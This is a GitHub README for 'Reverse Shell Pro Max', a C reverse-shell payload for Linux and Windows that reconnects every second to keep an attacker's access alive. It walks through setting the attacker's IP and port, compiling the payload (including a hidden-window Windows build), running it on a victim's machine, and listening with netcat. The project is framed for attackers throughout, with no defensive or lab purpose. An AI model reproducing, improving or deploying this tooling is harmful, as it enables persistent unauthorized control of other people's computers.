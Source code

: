 # Reverse Shell Pro Max (Project_RSPM)

**Reverse Shell Pro Max (RSPM)** is a persistent reverse shell payload designed to provide continuous, automatic reverse shell connections to an attacker’s machine. Unlike traditional reverse shell tools like **msfvenom**, which only provide a one-time connection, **RSPM** keeps attempting to reconnect every second if the connection is lost, ensuring reliable access for attackers.

---

## Project Structure

The repository is structured as follows:


- **Project_RSPM_UNIX**: Contains C code designed to work on **Linux** systems.
- **Project_RSPM_WIN**: Contains C code designed to work on **Windows** systems.

---

## Features

- **Persistent Connection**: Continuously sends connection requests every second until successful.
- **Automatic Reconnection**: If the connection drops, the reverse shell payload automatically attempts to reconnect.
- **Target Specific IP and Port**: Easily change the IP and port where the reverse shell connects.
- **Works on Linux and Windows**: Separate codebases for each platform, with instructions for compiling and running.

---

## Installation and Usage

### 1. **Linux**

#### Step 1: Modify IP and Port
- Open the C file (`reverse_shell_6th_try_somehow_working.c`) located in the **Project_RSPM_UNIX** folder.
- Modify the `IP` and `PORT` to match the attacker's machine IP and desired port.

    ```c
    #define IP "192.168.100.215" // Replace with your attacker's IP
    #define PORT 4444            // Replace with your desired port
    ```

#### Step 2: Compile the C Code
- Compile the C code using `gcc`:

    ```bash
    gcc -o reverse_shell reverse_shell_6th_try_somehow_working.c
    ```

#### Step 3: Run the Payload
- Run the compiled reverse shell executable on the victim machine:

    ```bash
    ./reverse_shell
    ```

#### Step 4: Listen for Connections
- On your attacker's machine, use `nc` or another listening tool to catch the reverse shell connection:

    ```bash
    nc -lvnp 4444
    ```

---

### 2. **Windows**

#### Step 1: Modify IP and Port
- Open the C file (`reverse_shell_3rd_try_somehow_working.c`) located in the **Project_RSPM_WIN** folder.
- Modify the `IP` and `PORT` to match the attacker's machine IP and desired port.

    ```c
    #define IP "192.168.100.215" // Replace with your attacker's IP
    #define PORT 4444            // Replace with your desired port
    ```

#### Step 2: Install MinGW
- Install MinGW for compiling C code on Windows. If you don't have it installed, use the following command:

    ```bash
    sudo apt install mingw-w64
    ```

#### Step 3: Compile the C Code for Windows
- Compile the C file using the MinGW cross-compiler:

    ```bash
    x86_64-w64-mingw32-gcc reverse_shell_3rd_try_somehow_working.c -o reverse_shell.exe -lws2_32 -mwindows
    ```

#### Step 4: Run the Payload
- Run the compiled executable on the victim’s Windows machine:

    ```bash
    ./reverse_shell.exe
    ```

#### Step 5: Listen for Connections
- On the attacker's machine, listen for the reverse shell connection:

    ```bash
    nc -lvnp 4444
    ```

---

## Contributing

Feel free to open an issue or submit a pull request for improvements or new features. Contributions are welcome!

---

## Incomplete...

This project is incomplete and i made it as i am just a starter to code in c and its somehow working but if someone thakes this raw code and modifies can contact me and contribute!

